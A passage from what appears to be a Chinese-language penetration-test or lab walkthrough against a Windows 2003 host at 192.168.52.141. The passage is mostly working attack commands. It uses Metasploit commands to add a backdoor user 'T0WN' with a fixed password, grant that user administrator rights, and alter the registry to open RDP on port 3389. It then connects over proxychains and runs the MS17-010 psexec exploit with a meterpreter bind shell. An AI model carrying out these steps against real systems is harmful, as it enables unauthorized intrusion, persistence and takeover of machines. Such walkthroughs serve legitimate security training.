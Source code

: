 ![image-20220526135057810](images/43.png)

`set command net user T0WN 8888! /add`添加用户；
`set command net localgroup administrators T0WN /add`添加管理员权限；
`set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'`执行命令开启3389端口，这里要么用单引号把命令引住，要么用反斜杠对反斜杠和引号进行转义，否则会出错

然后就可以远程登陆win2003了

`proxychains rdesktop 192.168.52.141`远程桌面

反弹shell

```
use exploit/windows/smb/ms17_010_psexec
set payload windows/meterpreter/bind_tcp
set rhosts 192.168.52.141
run
```

![image-20220526143701875](images/44.png)
